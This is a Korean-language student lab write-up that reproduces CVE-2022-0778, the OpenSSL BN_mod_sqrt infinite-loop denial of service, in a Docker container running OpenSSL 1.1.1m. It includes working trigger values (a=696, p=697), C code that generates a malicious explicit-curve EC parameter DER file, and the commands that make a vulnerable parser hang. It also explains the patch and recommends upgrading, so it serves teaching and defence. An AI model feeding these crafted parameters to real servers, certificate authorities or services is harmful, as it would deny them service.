

# CVE-2022-0778 OpenSSL 무한 루프 DoS 재현

과제 제출자 : WHS4기 21반 조현준 7563
https://github.com/openaisetone-hash
## 1. 취약점 요약

| 항목 | 내용 |
| --- | --- |
| CVE | CVE-2022-0778 |
| 취약 함수 | `BN_mod_sqrt()` |
| 취약점 유형 | 종료할 수 없는 반복문(CWE-835), 서비스 거부(DoS) |
| 영향 | 조작된 인증서·개인 키·EC 파라미터를 파싱하는 프로세스가 무한 루프에 빠져 CPU를 계속 점유할 수 있음 |
| CVSS 3.1 | 7.5 High (`AV:N/AC:L/PR:N/UI:N/S:U/C:N/I:N/A:H`) |
| 공개일 | 2022-03-15 |

OpenSSL의 `BN_mod_sqrt()`는 모듈러 제곱근을 계산하는 함수이다. 이 함수가 소수가 아닌 모듈러스(modulus)를 입력받을 때 특정 계산 경로가 종료되지 않아 무한 루프가 발생한다. OpenSSL은 압축 형식의 타원곡선 점을 복원하는 과정에서도 이 함수를 내부적으로 호출한다. 따라서 공격자가 조작한 명시적(explicit) EC 파라미터를 인증서, 인증서 서명 요청 또는 개인 키 등에 넣으면 이를 파싱하는 애플리케이션이 멈출 수 있다.

인증서 서명 검증보다 먼저 파싱 단계에서 문제가 발생할 수 있으므로, 인증서가 신뢰되지 않거나 서명이 유효하지 않다는 사실만으로 공격이 차단되지는 않는다. 대표적인 영향 대상은 다음과 같다.

- 외부 TLS 서버의 인증서를 처리하는 TLS 클라이언트
- 클라이언트 인증서를 받는 TLS 서버
- 사용자가 제출한 인증서나 개인 키를 검사하는 호스팅 서비스
- 인증서 서명 요청(CSR)을 처리하는 인증 기관
- 공격자가 인자를 제어할 수 있는 상태로 `BN_mod_sqrt()`를 직접 호출하는 프로그램

### 영향 버전

| 제품 계열 | 취약 버전 | 수정 버전 |
| --- | --- | --- |
| OpenSSL 1.0.2 | 1.0.2 ~ 1.0.2zc | 1.0.2zd |
| OpenSSL 1.1.1 | 1.1.1 ~ 1.1.1m | 1.1.1n |
| OpenSSL 3.0 | 3.0.0, 3.0.1 | 3.0.2 |

이 프로젝트는 취약 버전인 **OpenSSL 1.1.1m**을 사용한다.

## 2. 환경 구성

### 디렉터리 구성

```text
CVE_test/
├── Dockerfile                         # Ubuntu 22.04 및 OpenSSL 1.1.1m 빌드
├── compose.yaml                       # 빌드·PoC 실행·상태 확인 자동화
├── image.png                          # Compose PoC 재현 결과 화면
├── Makefile                           # PoC 빌드·실행·판정 자동화
├── README.md
├── scripts/
│   ├── build_vulnerable_openssl.sh    # 호스트에서 취약 OpenSSL을 별도 빌드할 때 사용
│   ├── install_docker_ubuntu.sh        # Ubuntu용 Docker 설치 보조 스크립트
│   └── run_poc_and_hold.sh             # Compose 시작 시 PoC 실행
└── src/
    └── cve_2022_0778_poc.c            # 직접 호출 및 악성 DER 생성 PoC
```

### 권장 실행 환경

- Docker Engine 또는 Docker Desktop
- 컨테이너 베이스 이미지: Ubuntu 22.04
- 컨테이너 내부 OpenSSL: 1.1.1m
- C 컴파일러: GCC
- 빌드 도구: `make`, `build-essential`, `perl`
- 인터넷 연결: 최초 이미지 빌드 시 Ubuntu 패키지와 OpenSSL 소스 다운로드에 필요

호스트에 설치된 OpenSSL은 사용하지 않는다. Docker 이미지 안의 `/opt/openssl-vuln`에 취약 버전을 별도로 설치하며, PoC 역시 해당 헤더와 `libcrypto`를 사용해 컴파일된다.

### Docker Compose로 자동 구성 및 재현

```bash
cd ~/Test_code/CVE_test
docker compose up -d
```

최초 실행 시 Docker 이미지를 자동으로 빌드한다. 컨테이너가 시작되면 `BN_mod_sqrt()` 직접 호출과 악성 DER 파싱 시험을 연속 실행한다. 두 프로세스가 각각 제한 시간까지 무한 루프 상태를 유지하면 재현 성공으로 판정하고 컨테이너 상태가 `healthy`로 변경된다.

Compose의 `pull_policy: build` 설정으로 동일한 이름의 외부 PoC 이미지를 내려받지 않고 이 디렉터리의 Dockerfile에서 직접 이미지를 빌드한다. Ubuntu 22.04 베이스는 amd64와 arm64를 모두 포함하는 공식 멀티아키텍처 이미지 digest로 고정했고, OpenSSL 1.1.1m 소스는 SHA-256 검증에 실패하면 빌드를 중단한다. 호스트 디렉터리를 컨테이너에 마운트하지 않으며, Linux와 macOS의 Docker Engine 또는 Docker Desktop에서 동일한 Linux 컨테이너 환경을 사용한다. `.gitattributes`는 셸 스크립트와 설정 파일의 줄바꿈을 LF로 고정하여 호스트 운영체제에 따른 실행 차이를 방지한다.

진행 과정과 결과는 다음 명령으로 확인한다.

```bash
docker compose logs -f
docker compose ps
```

정상 재현 시 `docker compose ps`의 STATUS에 `(healthy)`가 표시된다. `unhealthy` 또는 `Exited`가 표시되면 로그에서 빌드, 실행 파일 또는 예상하지 않은 종료 코드를 확인한다.

Docker 소켓 권한 오류가 발생하면 다음과 같이 실행한다.

```bash
sudo docker compose up -d
sudo docker compose logs -f
```

`docker` 그룹은 사실상 호스트의 root 권한을 부여할 수 있으므로 공동 사용 시스템에서는 보안 정책을 먼저 확인한다.

실습을 종료하고 컨테이너를 제거하려면 다음 명령을 사용한다.

```bash
docker compose down
```

## 3. 취약 조건

다음 조건이 충족되어야 이 PoC에서 무한 루프가 재현된다.

1. 실행 프로세스가 패치 전 OpenSSL(이 프로젝트에서는 1.1.1m)의 `libcrypto`를 실제로 로드해야 한다.
2. `BN_mod_sqrt()`에 소수가 아닌 모듈러스와 무한 루프를 유발하는 값이 전달되어야 한다. 직접 호출 PoC는 `a=696`, `p=697`을 사용하며 `697 = 17 × 41`이므로 `p`는 합성수이다.
3. 파서 경로에서는 명시적 EC 파라미터와 압축된 생성점(base point)을 포함한 조작된 DER 파일을 처리해야 한다.
4. 대상 프로세스에 별도의 시간 제한이나 격리 장치가 없다면 계산이 반환되지 않고 CPU를 계속 사용할 수 있다.

현재 PoC의 악성 EC 그룹은 다음 값을 사용한다.

| 파라미터 | 값 |
| --- | ---: |
| 소수 필드로 전달되는 `p` | 697(실제로는 합성수) |
| 곡선 계수 `a` | 1 |
| 곡선 계수 `b` | 694 |
| 생성점 `(gx, gy)` | `(1, 132)` |
| 생성점 차수 `order` | 663 |
| 보조 인자 `cofactor` | 1 |
| 점 변환 형식 | 압축 형식(`POINT_CONVERSION_COMPRESSED`) |
| ASN.1 표현 | 명시적 곡선(`OPENSSL_EC_EXPLICIT_CURVE`) |

### 무한 루프가 발생하는 실제 코드

문제는 OpenSSL 1.1.1m의 [`crypto/bn/bn_sqrt.c`](https://github.com/openssl/openssl/blob/OpenSSL_1_1_1m/crypto/bn/bn_sqrt.c#L304-L318)에 있는 Tonelli–Shanks 계산 부분이다. 이 알고리즘은 `p`가 소수라는 전제에서 `b^(2^i) mod p`가 1이 되는 가장 작은 `i`를 찾는다. 패치 전 코드는 다음과 같은 형태였다.

```c
i = 1;
BN_mod_sqr(t, b, p, ctx);
while (!BN_is_one(t)) {
    i++;
    if (i == e)
        goto end;
    BN_mod_mul(t, t, t, p, ctx);
}
```

코드에는 `i == e` 검사가 있지만 `i > e`인 경우를 처리하지 않는다. 정상적인 소수 `p`에서는 수학적 전제에 따라 `i < e` 범위 안에서 `t == 1`을 찾으므로 문제가 드러나지 않는다. 그러나 합성수인 `p=697`과 `a=696`이 들어오면 그 전제가 깨지며 다음과 같이 진행된다.

1. 반복 계산 중 `i`가 `e`가 되었을 때도 `t == 1`이 아니면 `i == e` 검사로 오류 종료할 수 있다.
2. 이 취약 입력에서는 `i`가 `e`가 되기 전에 `t == 1`이 되어 바깥 단계가 계속되고, 이후 Tonelli–Shanks 상태 변수 `e`가 더 작은 값으로 갱신된다.
3. 다음 바깥 반복에서 내부 반복의 `i`는 다시 1부터 시작하지만, 갱신된 `e`가 이미 1이므로 `i++` 결과가 2가 된다.
4. 조건은 `i == e`만 검사하므로 이미 경계를 지나간 `2 > 1`을 감지하지 못한다. `i`는 계속 증가하고 `t`도 1이 되지 않아 `while (!BN_is_one(t))`가 끝나지 않는다.

즉, 합성수 입력을 거부하지 못한 것과 반복 횟수의 상한을 강제하지 않은 것이 결합되어 무한 루프가 발생한다. 이 프로젝트의 직접 PoC에서 멈추는 것은 PoC 자체의 반복문이 아니라, 호출된 취약 OpenSSL 라이브러리 내부의 위 반복문이다.

## 4. 재현 절차

### 방법 A: Compose 전체 자동 재현(권장)

```bash
cd ~/Test_code/CVE_test
docker compose up -d
docker compose ps
docker compose logs
```

`docker compose up -d`는 이미지 빌드, OpenSSL 1.1.1m 설치, PoC 컴파일 및 두 취약 경로의 재현을 자동으로 수행한다. 별도의 `make` 명령이나 컨테이너 내부 명령은 필요하지 않다.

- `docker compose ps`: 컨테이너가 `healthy`인지 확인한다.
- `docker compose logs`: 두 PoC 경로가 `reproduced`로 판정되었는지 확인한다.

위 명령은 다음 작업을 순서대로 수행한다.

1. `cve-2022-0778-poc` Docker 이미지를 빌드한다.
2. 컨테이너 안에서 OpenSSL 1.1.1m을 `/opt/openssl-vuln`에 설치한다.
3. `src/cve_2022_0778_poc.c`를 취약한 `libcrypto`에 링크해 컴파일한다.
4. `artifacts/malicious_ecparams.der`를 생성한다.
5. `BN_mod_sqrt()` 직접 호출과 DER 파싱을 각각 실행한다.
6. 각 프로세스가 5초 안에 반환되지 않아 `timeout` 종료 코드 `124`로 끝나는지 확인한다.
7. 두 시험이 모두 성공하면 컨테이너를 `healthy` 상태로 유지한다.

### 방법 B: 컨테이너 안에서 단계별 재현

```bash
cd ~/Test_code/CVE_test
docker compose exec cve-2022-0778-poc bash
```

컨테이너 셸에서 OpenSSL 버전과 동적 링크 대상을 확인한다.

```bash
openssl version -a
ldd ./bin/cve_2022_0778_poc
```

#### 1) `BN_mod_sqrt()` 직접 호출

```bash
timeout 5s ./bin/cve_2022_0778_poc --bn-sqrt
echo $?
```

취약점이 재현되면 5초 후 `timeout`이 프로세스를 종료하고 종료 코드는 `124`가 된다.

#### 2) 악성 EC 파라미터 생성 및 파싱

```bash
mkdir -p artifacts
./bin/cve_2022_0778_poc --write-ecparams artifacts/malicious_ecparams.der
timeout 5s openssl ecparam \
  -in artifacts/malicious_ecparams.der \
  -inform DER \
  -text \
  -noout
echo $?
```

취약한 OpenSSL 파서는 압축 생성점의 y 좌표를 복원하는 도중 `BN_mod_sqrt()`에 도달해 반환하지 않는다. 종료 코드 `124`는 프로그램 자체의 정상 종료 코드가 아니라 GNU `timeout`이 제한 시간을 초과해 종료했다는 뜻이다.

> `timeout` 없이 직접 호출하거나 DER 파일을 파싱하지 않는다. 무한 루프 프로세스가 계속 CPU를 점유할 수 있다.

## 5. PoC 코드

전체 코드는 [`src/cve_2022_0778_poc.c`](src/cve_2022_0778_poc.c)에 있다. PoC는 두 가지 동작 모드를 제공한다.

### 직접 트리거: `--bn-sqrt`

핵심 호출은 다음과 같다.

```c
/* p=697은 17*41인 합성수이고, a=696과 함께 취약 경로를 유발한다. */
BN_dec2bn(&p, "697");
BN_dec2bn(&a, "696");
res = BN_mod_sqrt(NULL, a, p, ctx);
```

취약한 OpenSSL에서는 마지막 호출이 반환되지 않는다. 수정된 OpenSSL에서는 무한 루프 대신 오류를 반환한다.

### 파서 트리거 생성: `--write-ecparams <파일>`

`build_malicious_group()`은 합성수 697을 필드 모듈러스로 사용한 EC 그룹을 만들고, 아래 설정을 통해 명시적 EC 파라미터와 압축 생성점을 사용하게 한다.

```c
EC_GROUP_set_asn1_flag(group, OPENSSL_EC_EXPLICIT_CURVE);
EC_GROUP_set_point_conversion_form(group, POINT_CONVERSION_COMPRESSED);
```

`write_ecparams()`는 `i2d_ECPKParameters_fp()`로 이 그룹을 DER 형식으로 직렬화한다.

```c
written = i2d_ECPKParameters_fp(fp, group);
```

생성 단계 자체는 정상적으로 끝난다. 취약점은 생성된 DER을 취약한 OpenSSL의 `ecparam` 파서가 읽으며 압축점 복원을 시도할 때 발생한다.

### 명령행 옵션

```text
./bin/cve_2022_0778_poc --bn-sqrt
./bin/cve_2022_0778_poc --write-ecparams <출력.der>
```

## 6. 실행 결과

`docker compose logs`에서 취약점이 정상적으로 재현되면 다음과 유사하게 출력된다.

```text
[*] OpenSSL under test:
OpenSSL 1.1.1m  14 Dec 2021
...
[*] Direct BN_mod_sqrt trigger should be stopped by timeout.
Triggering CVE-2022-0778 via BN_mod_sqrt(a=696, p=697).
p is composite: 697 = 17 * 41. A vulnerable OpenSSL build hangs here.
[+] Direct trigger reproduced: process hung until timeout.
[*] DER EC parameter parser trigger should also be stopped by timeout.
[+] EC parameter parser reproduced: process hung until timeout.
```

### 실제 Compose 재현 화면



위 화면처럼 `docker compose ps`에서 컨테이너가 `healthy`이고, 로그에서 직접 호출 및 DER 파서 경로가 모두 `reproduced`로 출력되면 재현에 성공한 것이다.

판정 기준은 다음과 같다.

| 결과 | 의미 |
| --- | --- |
| 두 시험 모두 5초 후 종료되고 `reproduced` 출력 | 취약한 무한 루프 재현 성공 |
| `BN_mod_sqrt returned` 또는 파서가 즉시 오류 반환 | 수정 버전이거나 취약 조건이 충족되지 않음 |
| 종료 코드 124 이외의 오류 | 빌드, 동적 라이브러리 경로, 입력 파일 또는 실행 환경 확인 필요 |

재현 중 CPU 사용률을 확인하려면 다른 터미널에서 다음 명령을 실행할 수 있다.

```bash
docker stats
```
```
CONTAINER ID   NAME               CPU %     MEM USAGE / LIMIT     MEM %     NET I/O       BLOCK I/O    PIDS
ebac8c1a2bec   naughty_bhaskara   99.75%    3.316MiB / 7.417GiB   0.04%     736B / 126B   786kB / 0B
```
위와 같은 결과 발생


## 7. 대응 방안

### 1) OpenSSL 업데이트

가장 확실한 대응은 공급업체가 제공하는 보안 업데이트를 적용하는 것이다.

- OpenSSL 1.1.1 계열: **1.1.1n 이상**으로 업데이트
    (참고 사항 : OpenSSL 1.1.1: 2023년 9월 11일 공개 지원 종료)
- OpenSSL 3.0 계열: **3.0.2 이상**으로 업데이트


위 버전은 최초 수정 버전이다. 현재 운영 환경에서는 이미 지원이 종료된 과거 버전에 머물지 말고 OS 또는 제품 공급업체가 제공하는 지원 중인 최신 보안 버전을 사용한다. 배포판은 자체 패치(backport)를 적용하면서 버전 문자열을 유지할 수 있으므로 버전 문자열만 비교하지 말고 공급업체 보안 공지와 패키지 변경 이력도 확인한다.

### 실제 패치에서 변경된 코드

OpenSSL의 공식 수정 커밋은 [`3118eb64934499d93db3230748a452351d1d9a65`](https://github.com/openssl/openssl/commit/3118eb64934499d93db3230748a452351d1d9a65)이다. 이 패치는 단순히 `i == e`를 `i >= e`로 바꾸는 대신, 반복문 자체에 `i < e`라는 명시적인 상한을 두었다.

```c
for (i = 1; i < e; i++) {
    /* t를 제곱하여 b^(2^i) mod p를 계산 */
    if (BN_is_one(t))
        break;
}
if (i >= e) {
    BNerr(BN_F_BN_MOD_SQRT, BN_R_NOT_A_SQUARE);
    goto end;
}
```

변경 효과는 다음과 같다.

- 내부 탐색을 최대 `e-1`회로 제한하므로 어떤 입력에서도 해당 반복문이 무한히 실행되지 않는다.
- 제한 범위에서 `t == 1`을 찾지 못하면 입력이 제곱잉여가 아니거나 `p`가 소수가 아닌 것으로 보고 `BN_R_NOT_A_SQUARE` 오류로 반환한다.
- 따라서 조작된 EC 파라미터를 파싱해도 프로세스가 CPU를 계속 점유하지 않고 오류 처리 경로로 빠진다.

#### 패치 전·후 코드 출처

| 구분 | 공식 OpenSSL 소스 |
| --- | --- |
| 패치 전 OpenSSL 1.1.1m | [`bn_sqrt.c` 취약 반복문](https://github.com/openssl/openssl/blob/OpenSSL_1_1_1m/crypto/bn/bn_sqrt.c#L304-L318) |
| 보안 패치 전체 변경 내용 | [CVE-2022-0778 수정 커밋](https://github.com/openssl/openssl/commit/3118eb64934499d93db3230748a452351d1d9a65) |
| 패치 후 OpenSSL 1.1.1n | [`bn_sqrt.c` 수정 반복문](https://github.com/openssl/openssl/blob/OpenSSL_1_1_1n/crypto/bn/bn_sqrt.c#L305-L326) |

위 링크는 모두 OpenSSL 프로젝트의 공식 GitHub 저장소이다. 태그 링크는 각 릴리스에 포함된 실제 파일을 고정해서 보여 주며, 커밋 링크에서는 추가·삭제된 줄을 직접 비교할 수 있다.
